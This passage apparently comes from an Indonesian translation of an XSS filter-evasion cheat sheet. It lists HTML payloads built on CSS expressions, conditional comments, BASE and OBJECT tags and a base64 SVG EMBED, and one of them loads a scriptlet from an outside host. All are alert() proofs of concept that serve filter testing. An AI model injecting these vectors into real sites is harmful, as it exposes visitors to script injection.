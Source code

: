 ```html
<DIV STYLE="background-image: url( javascript:alert('XSS'))">
```

#### Ekspresi DIV

Varian serangan ini efektif terhadap filter XSS dunia nyata dengan menggunakan baris baru antara titik dua dan `ekspresi`:

```html
<DIV STYLE="width: expression(alert('XSS'));">
```

### Blok Tersembunyi di Tingkat Bawah

Hanya berfungsi pada mesin rendering IE - Trident. Beberapa situs web menganggap apa pun di dalam blok komentar aman dan karenanya tidak perlu dihapus, yang memungkinkan vektor XSS kita ada. Atau sistem mungkin mencoba menambahkan tag komentar di sekitar sesuatu dalam upaya sia-sia untuk membuatnya tidak berbahaya. Seperti yang dapat kita lihat, hal itu mungkin tidak akan berhasil:

```js
<!--[if gte IE 4]>
<SCRIPT>alert('XSS');</SCRIPT>
<![endif]-->
```

### Tag BASE

(Berfungsi pada IE dalam mode aman) Serangan ini memerlukan `//` untuk mengomentari karakter berikutnya sehingga Anda tidak akan mendapatkan kesalahan JavaScript dan tag XSS Anda akan ditampilkan. Selain itu, hal ini bergantung pada fakta bahwa banyak situs web menggunakan gambar yang ditempatkan secara dinamis seperti `images/image.jpg` daripada jalur lengkap. Jika jalur menyertakan garis miring depan seperti `/images/image.jpg`, Anda dapat menghapus satu garis miring dari vektor ini (selama ada dua garis miring di awal komentar, ini akan berfungsi):

```html
<BASE HREF="javascript:alert('XSS');//">
```

### Tag OBJEK

Jika sistem mengizinkan objek, Anda juga dapat menyuntikkan muatan virus yang dapat menginfeksi pengguna, dll. dengan tag APPLET. File yang ditautkan sebenarnya adalah file HTML yang dapat berisi XSS Anda:

```html
<OBJECT TYPE="text/x-scriptlet" DATA="http://xss.rocks/scriptlet.html"></OBJECT>
```

### EMBED SVG yang Berisi Vektor XSS

Serangan ini hanya berfungsi di Firefox:

```html
<EMBED SRC="data:image/svg+xml;base64,PHN2ZyB4bWxuczpzdmc9Imh0dH A6Ly93d3cudzMub3JnLzIwMDAvc3ZnIiB4bWxucz0iaHR0cDovL3d3dy53My5vcmcv MjAwMC9zdmciIHhtbG5zOnhsaW5rPSJodHRwOi8vd3d3LnczLm9yZy8xOTk5L3hs aW5rIiB2ZXJzaW9uPSIxLjAiIHg9IjAiIHk9IjAiIHdpZHRoPSIxOTQiIGhlaWdodD0iMjAw IiBpZD0ieHNzIj48c2NyaXB0IHR5cGU9InRleHQvZWNtYXNjcmlwdCI+YWxlcnQoIlh TUyIpOzwvc2NyaXB0Pjwvc3ZnPg==" type="image/svg+xml" AllowScriptAccess="always"></EMBED>
```
